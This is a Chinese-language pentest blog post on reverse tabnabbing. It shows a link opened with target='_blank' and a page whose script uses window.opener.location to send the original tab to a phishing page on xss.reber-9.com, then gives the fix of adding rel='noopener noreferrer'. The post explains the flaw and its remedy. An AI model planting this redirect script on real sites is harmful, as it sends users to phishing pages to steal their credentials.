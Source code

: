 +++
date = "2016-10-12T10:24:38+08:00"
description = ""
draft = false
tags = ["钓鱼"]
title = "利用_blank属性钓鱼"
topics = ["Pentest"]

+++

### 0x00 _blank
_blank是html中的标签属性，如```<a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>```, 但若点击HELLO打开的网页1.php中有如下代码：
```
<script>
if(window.opener){
  window.opener.location  = "http://xss.reber-9.com/fish.html";
}
</script>
```
则原网页将转跳到http://xss.reber-9.com/fish.html ，这就会造成钓鱼

### 0x01 简单模板
* a.html内容如下：

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>
</body>
</html>
```

* ```http://xss.reber-9.com/1.php```中1.php内容如下：

```
<html>
<head>
    <title>test</title>
    <script>
        if(window.opener){
            window.opener.location = "http://xss.reber-9.com/fish.html";
        }
    </script>
</head>
<body>
    <p>hello</p>
</body>
</html>
```

* 1.php同级下有个钓鱼模板fish.html，内容如下：

```
<html>
<head>
    <title>fish</title>
</head>
<body>
    <h2>This is fishing template!</h2>
</body>
</html>
```

* 点击a.html中的HELLO则会出现下面的情况，也就导致了钓鱼：

![blank钓鱼](/img/post/blank.gif)

### 0x02 修复方案
网站中的链接使用```target="_blank"```的带上```rel="noopener noreferrer nofollow"```